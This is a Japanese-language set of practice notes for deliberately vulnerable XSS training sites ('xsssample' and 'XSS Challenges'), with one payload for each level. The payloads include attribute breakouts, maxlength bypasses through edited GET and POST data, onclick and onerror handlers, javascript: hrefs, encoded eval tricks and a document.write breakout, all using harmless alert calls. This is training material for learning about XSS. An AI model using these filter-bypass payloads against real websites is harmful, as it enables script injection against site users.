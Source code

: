 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [練習](#%E7%B7%B4%E7%BF%92)
  - [xsssample](#xsssample)
    - [1 (normal)](#1-normal)
    - [2 (bypass <input )](#2-bypass-input-)
    - [3 (bypass maxlength="10")](#3-bypass-maxlength10)
    - [4 (bypass "<>")](#4-bypass-)
    - [5 (bypass maxlength="10" with POST)](#5-bypass-maxlength10-with-post)
    - [6 (href javascript:)](#6-href-javascript)
    - [7 (filter "script")](#7-filter-script)
    - [8 (inject in document.write(''))](#8-inject-in-documentwrite)
  - [XSS Challenges](#xss-challenges)
    - [1 (normal)](#1-normal-1)
    - [2 (bypass \<input value="">)](#2-bypass-%5Cinput-value)
    - [3 (inject \<select>tag)](#3-inject-%5Cselecttag)
    - [4](#4)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# 練習
## xsssample
http://bogus.jp/xsssample/   
writeupは以下   
https://qiita.com/gky360/items/175b8f1b4ca6f71644f4   
### 1 (normal)
http://bogus.jp/xsssample/xsssample_01.php   
![image](https://user-images.githubusercontent.com/56021519/103071017-289c1d80-4606-11eb-86d4-a051e0fdd02c.png)   
普通に`<script>alert(1);</script>`   
### 2 (bypass <input )
http://bogus.jp/xsssample/xsssample_02_M9eec.php   
![image](https://user-images.githubusercontent.com/56021519/103071081-436e9200-4606-11eb-8619-31160c8b6b82.png)   
以下のようにvalueの中に入力がセットされる。   
```txt
<form method="get" action="">login<br>
username<input name="user" type="text" value="aaa"><br>
password<input name="pass" type="password" value=""><br>
<input type="submit" value="login">
</form>
```
`a"><script>alert(1);</script>`

### 3 (bypass maxlength="10")
http://bogus.jp/xsssample/xsssample_03_J4Skr.php   
![image](https://user-images.githubusercontent.com/56021519/103071232-8d577800-4606-11eb-89c7-fff87f8644bc.png)   
以下のように10文字以内の制限がある。   
```txt
<form method="get" action="">login<br>
username<input name="user" maxlength="10" type="text" value=""><br>
password<input name="pass" maxlength="10" type="password" value=""><br>
<input type="submit" value="login">
</form>
```
ブラウザからの入力が制限されているだけなので、URL上のGETパラメータの部分に`a"><script>alert(1);</script>`を書く。   
```txt
http://bogus.jp/xsssample/xsssample_03_J4Skr.php?user=a%22%3E%3Cscript%3Ealert(xss);%3C/script%3E&pass=
```
### 4 (bypass "<>")
http://bogus.jp/xsssample/xsssample_04_C_HD-.php   
![image](https://user-images.githubusercontent.com/56021519/103071499-0bb41a00-4607-11eb-8816-c28c47af61d9.png)   
`a"><script>alert(1);</script>`を入れると以下のようなる。どうやら`<>`が使えない。   
```txt
<form method="get" action="">login<br>
username<input name="user" type="text" value="a"&gt;&lt;script&gt;alert(1);&lt;/script&gt;"><br>
password<input name="pass" type="password" value=""><br>
<input type="submit" value="login">
</form>
```
以下でBypass。   
```txt
" onclick="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#88;&#83;&#83;&#34;&#41;
" onclick="window.onerror=eval;throw'=alert\x28\x22XSS\x22\x29';
" onclick="alert(xss);
```
### 5 (bypass maxlength="10" with POST)
http://bogus.jp/xsssample/xsssample_05_3S7LA.php   
![image](https://user-images.githubusercontent.com/56021519/103071643-5d5ca480-4607-11eb-96ca-13ad9bceb4b4.png)   
10文字以内の制限があるがPOSTしてるのでBurpで書き換える。   
```txt
word=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```
### 6 (href javascript:)
http://bogus.jp/xsssample/xsssample_06_w6k2v.php   
![image](https://user-images.githubusercontent.com/56021519/103071770-a1e84000-4607-11eb-9926-f8bd7738a304.png)   
以下のように`href`属性の値に入力が入る。   
```txt
<h1><a href="aaa">link</a></h1>
```
以下でいける。   
```txt
javascript:alert('XSS!');
```
### 7 (filter "script")
http://bogus.jp/xsssample/xsssample_07_qqoXM.php   
![image](https://user-images.githubusercontent.com/56021519/103071857-d956ec80-4607-11eb-8e67-b40d9bd48ff0.png)   
<script></script>が弾かれてる   
大文字でもダメそう   
以下のように`<img`タグならいけた   
```txt
<img src="" onerror="alert('XSS!');">
```
### 8 (inject in document.write(''))
http://bogus.jp/xsssample/xsssample_08_sv8ec.php   
![image](https://user-images.githubusercontent.com/56021519/103071941-099e8b00-4608-11eb-9383-bf6b3c8c0525.png)   
以下のように入力がここに入る。なお、`"<>`は使えない。   
```txt
<script>
function hello(){
document.write ('aaa'+"さん");
}
</script>
```
以下でいける。   
```txt
');alert(xss);//
```

## XSS Challenges
### 1 (normal)
![image](https://user-images.githubusercontent.com/56021519/103072436-ea542d80-4608-11eb-94f9-09f21674c770.png)   
`<script>alert(document.domain);</script>`   
### 2 (bypass \<input value="">)
![image](https://user-images.githubusercontent.com/56021519/103072526-11aafa80-4609-11eb-84c1-5aa2f0c6dd17.png)   
`"><script>alert(document.domain);</script>`   
### 3 (inject \<select>tag)
![image](https://user-images.githubusercontent.com/56021519/103072736-8120ea00-4609-11eb-80af-8680a479fc56.png)   
`"><script>alert(document.domain);</script>`をselect countryにいれてもいけるらしい   
POSTを書き換える。   
```txt
p1=a&p2=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E
```
![image](https://user-images.githubusercontent.com/56021519/103072714-7403fb00-4609-11eb-8e86-d7cba0dddb0e.png)   

### 4












